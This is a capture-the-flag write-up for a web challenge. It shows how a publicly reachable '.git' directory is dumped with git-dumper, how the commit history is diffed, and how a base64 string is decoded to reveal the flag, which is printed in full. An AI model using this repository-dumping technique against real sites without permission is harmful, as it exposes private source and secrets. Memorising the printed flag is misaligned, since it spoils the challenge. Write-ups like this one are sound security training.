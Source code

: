 ```yaml
---
name: Commit & Order - Version Control Unit (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Commit & Order - Version Control Unit (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Commit & Order: Version Control Unit

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=140 "Commit & Order: Version Control Unit (CIT CTF)")

## Description

> In software development, the repository is represented by two separate yet equally important branches...

## Solution

Another PHP login page. Test for SQLi again, thankfully not a repeat of the first challenge 😁

Description hints at `git`, so we can check `http://23.179.17.40:58002/.git/`

It returns a `Forbidden` page, meaning that it exists _but_ we cant access it. Time to check out the [git-dumper](https://github.com/arthaud/git-dumper) tool! It takes the URL and directory to dump to.

{% code overflow="wrap" %}

```bash
git-dumper http://23.179.17.40:58002/.git/ .
```

{% endcode %}

It downloads the git repo, now we can check the log.

{% code overflow="wrap" %}

```bash
git log

commit 7c8c6a8e434cb23aa9c9dac0ce715e928016849a (HEAD -> master)
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:39:59 2025 -0400

    I think we're good for now

commit 9b8bf13600c17ba7cbbc9ac7dcffaebd36b16b36
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:39:06 2025 -0400

    changed it again

commit 68f8fcdbebcca3c8fda1e91fcb842992d09a41d4
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:34:30 2025 -0400

    putting chatgpt to work

commit 247b12483ba3a6a8d177fdd9d74416a01eb61512
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:30:08 2025 -0400

    updated some more

commit ca9517713391aca6f5073758effa47c33d3be6b4
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:26:52 2025 -0400

    updated admin page

commit 0e775315a623ed96d9b0b53e6ffb69dd06b93902
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:18:13 2025 -0400

    first commit
```

{% endcode %}

Hmmm `"putting chatgpt to work"`? Sounds like somebody has been vibe coding! Let's do a diff.

{% code overflow="wrap" %}

```bash
git diff 68f8fcdbebcca3c8fda1e91fcb842992d09a41d4

+  <h1>Admin Panel</h1>

-  <div class="main-content">
-    <div class="warning-banner">
-      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
-        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
-      </svg>
-      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
-    </div>
+  <div class="container">
+    <p>This admin page is under construction and currently has no functionality.</p>
```

{% endcode %}

Looks like a base64 encoded message, let's decode.

{% code overflow="wrap" %}

```bash
echo "Q0lUezVkODFmNzc0M2Y0YmMyYWJ9" | base64 -d

CIT{5d81f7743f4bc2ab}
```

{% endcode %}

Flag: `CIT{5d81f7743f4bc2ab}`

